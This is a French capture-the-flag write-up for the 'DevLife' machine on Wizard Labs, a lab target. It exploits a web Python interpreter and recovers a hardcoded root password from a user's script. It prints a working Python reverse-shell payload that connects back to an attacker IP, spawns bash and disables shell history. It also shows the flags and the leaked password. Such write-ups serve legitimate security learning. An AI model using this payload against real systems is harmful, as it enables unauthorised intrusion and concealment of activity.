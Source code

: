 # Solution du CTF DevLife de Wizard Labs

The Meaning of Life
-------------------

Sur ce CTF facile de [Wizard Labs](https://labs.wizard-security.net/) se trouve un site web d'un certain *Teddy Smith* indiquant qu'il travaille sur un interpréteur Python pour le web.  

Du coup on n'est pas trop surpris de trouver ceci à l'URL */dev* :  

![WizardLabs CTF Devlife python interpreter RCE](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/devlife_interpreter.png)

On remarque vite que l'output des commandes ne nous est pas retourné. Il semble aussi que l'interpréteur a du mal à digérer les double-quotes, peut être le signe d'une injection de commande shell (on peut imaginer un appel du type *python2 -c "your\_payload\_here"*).  

Vu que l'on a du Python, autant s'y tenir. J'ai fait le script suivant pour passer plusieurs lignes au script PHP :  

```python
import requests

backdoor = (
    "import os;"
    "import socket;"
    "import pty;"
    "s=socket.socket();"
    "s.connect(('10.254.0.29',7777));"
    "os.dup2(s.fileno(),0);"
    "os.dup2(s.fileno(),1);"
    "os.dup2(s.fileno(),2);"
    "os.putenv('HISTFILE','/dev/null');"
    "pty.spawn('/bin/bash');"
    "s.close()"
)

response = requests.post(
        "http://10.1.1.20/dev/interpreter.php",
        data={"com": backdoor}
)
print(response.text)
```

Pour le néophyte Python, l'absence de virgules dans la variable *backdoor* n'est pas une typo, juste une façon de rendre plus lisible une longue chaîne.  

man sudoers
-----------

Une fois notre shell obtenu en tant que *www-data* j'ai vite remarqué différents scripts en relation avec *sudo* ou *su* :  

```plain
www-data@Devlife:/var/www/html/dev$ w
 13:38:45 up  2:13,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                11:26    2:10m  0.13s  0.05s nano sudo.py
www-data@Devlife:/var/www/html/dev$ last
tedd     pts/1        10.253.0.158     Sun Dec 23 13:21 - 13:22  (00:01)
root     tty1                          Sun Dec 23 11:26   still logged in
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:25   still running
reboot   system boot  4.9.0-7-amd64    Sun Dec 23 11:21   still running
tedd     pts/1        10.254.0.6       Mon Sep 17 16:13 - 16:49  (00:36)
reboot   system boot  4.9.0-7-amd64    Sat Sep 15 21:19   still running

wtmp begins Sat Sep 15 21:19:20 2018
```

Même chose pour l'utilisateur *tedd* (en plus de son flag) :  

```
www-data@Devlife:/var/www/html/dev$ cat /home/tedd/user.txt
529c7a0e511974d8e8761430bb8a12bf93e44406

www-data@Devlife:/home/tedd/.env$ cat su.py

import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```

Stockage du mot de passe... mauvaise idée :p  

Les utilisateurs *tedd* et *root* partagent le même mot de passe.  

```plain
root@Devlife:~# cat /root/root.txt
d360adc7e9c5ceb3588a79bd88e3cec7a5d14368
```


*Published April 04 2019 at 18:05*
